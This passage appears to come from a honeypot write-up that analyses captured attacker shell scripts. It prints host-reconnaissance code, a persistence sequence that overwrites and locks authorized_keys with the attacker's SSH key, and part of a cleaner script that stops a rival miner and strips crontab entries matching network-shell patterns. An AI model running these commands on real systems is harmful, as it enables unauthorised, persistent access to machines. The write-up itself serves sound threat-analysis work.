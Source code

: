 ```sh
cpu_model=$((grep -m1 -E 'model name|Processor|Model' /proc/cpuinfo 2>/dev/null || lscpu 2>/dev/null | grep -m1 -E 'Model name|Model|Processor') | cut -d: -f2- | sed 's/^ *//;s/ *$//')
gpu_info=$((lspci | grep -i vga; lspci | grep -i nvidia) 2>/dev/null | head -n5)
cat_help=$((cat --help 2>&1 | tr '\n' ' ') || cat --help 2>&1)
ls_help=$((ls --help 2>&1 | tr '\n' ' ') || ls --help 2>&1)
last_output=$((last | tail -n 10) || last)

echo "UNAME:$uname"
echo "ARCH:$arch"
echo "UPTIME:$uptime"
echo "CPUS:$cpus"
echo "CPU_MODEL:$cpu_model"
echo "GPU:$gpu_info"
echo "CAT_HELP:$cat_help"
echo "LS_HELP:$ls_help"
echo "LAST:$last_output"
```

## Execution & Persistence

### Try 1

Some threat actors and bots finally took the bait on my honeypot, attempting to install software and gain persistence. Here is a polished version of the first of two tries to gain persistence and execute malicious code. The threat actor first uploaded the script `clean.sh`. Then he executes the `setup.sh` file - also uploaded by the threat actor. Finally he adds his public key to the `authorized_keys` file to maintain persistence.

```terminal
chmod +x clean.sh;
sh clean.sh;
rm -rf clean.sh;
chmod +x setup.sh; sh setup.sh;
rm -rf setup.sh;
mkdir -p ~/.ssh;
chattr -ia ~/.ssh/authorized_keys;
echo "ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQCqHrvnL6l7rT/mt1AdgdY9tC1GPK216q0q/7neNVqm7AgvfJIM3ZKniGC3S5x6KOEApk+83GM4IKjCPfq007SvT07qh9AscVxegv66I5yuZTEaDAG6cPXxg3/0oXHTOTvxelgbRrMzfU5SEDAEi8+ByKMefE+pDVALgSTBYhol96hu1GthAMtPAFahqxrvaRR4nL4ijxOsmSLREoAb1lxiX7yvoYLT45/1c5dJdrJrQ60uKyieQ6FieWpO2xF6tzfdmHbiVdSmdw0BiCRwe+fuknZYQxIC1owAj2p5bc+nzVTi3mtBEk9rGpgBnJ1hcEUslEf/zevIcX8+6H7kUMRr rsa-key-20230629" > ~/.ssh/authorized_keys;
chattr +ai ~/.ssh/authorized_keys;
uname -a;
echo -e "\x61\x75\x74\x68\x5F\x6F\x6B\x0A"
```

The clean script literally does what it sounds like, the script cleans the server from old crypto miners. Also it cleans the crontab and the cron directories.

**Full code:**
```sh
#!/bin/bash

clean_crontab() {
  chattr -ia "$1"
  grep -vE 'wget|curl|/dev/tcp|/tmp|\.sh|nc|bash -i|sh -i|base64 -d' "$1" >/tmp/clean_crontab
  mv /tmp/clean_crontab "$1"
}

systemctl disable c3pool_miner
systemctl stop c3pool_miner

chattr -ia /var/spool/cron/crontabs
for user_cron in /var/spool/cron/crontabs/*; do
```